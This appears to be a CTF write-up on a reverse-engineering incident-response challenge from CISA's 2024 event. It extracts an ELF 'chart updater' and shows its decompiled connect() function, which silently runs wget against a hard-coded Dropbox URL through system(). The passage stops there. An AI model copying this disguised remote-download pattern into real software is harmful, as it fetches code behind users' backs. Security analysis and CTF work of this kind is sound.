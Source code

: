 ```yaml
---
title: CISA Annual CTF - Incident Response Challenge Writeup
description: Writeup for the Incident Response challenge in the CISA CTF event, focusing on reverse engineering and ICS investigation.
date: 2024-09-02
tldr: Dissecting an executable in a Guitar Hero-themed reverse engineering challenge, uncovering two flags through analysis of the update process.
draft: false
tags: ["ctf", "writeup", "reverse engineering", "ICS"]
---
```


## **CISA's Annual Capture the Flag (CTF) – Incident Response Challenge**

### **Overview**
CISA’s Capture the Flag (CTF) competition revolves around a cyber incident response scenario involving attacks on critical infrastructure sectors. This year’s featured sectors include city infrastructure, water purification, medical facilities, and railway systems. 

### **Event Details**
- **Date**: August 31 – September 4, 2024
- **Format**: Jeopardy-style challenges
- **Teams**: Up to 4 players
- **Registration**: Open from August 24 until the end of the competition

Players will be working as incident responders investigating various cyber incidents in Driftveil, a small city. The CTF is divided into categories such as **Security Foundations**, **Driftveil City**, **Castelia Solutions** (water-treatment), **Virbank Medical**, and **Anville Railway**.


# extract the executable from archive we found 



```bash
binwalk binwalk -D='.*' <target_file>
file 0
0: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=83401b267881c2b412c042ed95aebe6312497bac, for GNU/Linux 3.2.0, not stripped
```

Executable is supposed to be a level downloader for guitar hero, after loading this into `ghidra` we get to the connect method of the executable which seems to be connecting somewhere 


```C
unsigned __int64 connect()
{
  __int64 v1[16]; // [rsp+0h] [rbp-190h] BYREF
  char s[264]; // [rsp+80h] [rbp-110h] BYREF
  unsigned __int64 v3; // [rsp+188h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  qmemcpy(
    v1,
    "https://www.dropbox.com/scl/fo/d7obdb6leydzss7zt2flp/AEs4OV8HOoaDqQqS9UUnGnQ?rlkey=kzfeiye7xwwzso1mixp26aodg&st=xf88o70k&dl=1",
    125);
  puts("Updating your Clone Hero charts...");
  sprintf(s, "wget -O download.zip \"%s\"", (const char *)v1);
  puts(s);
  system(s);
```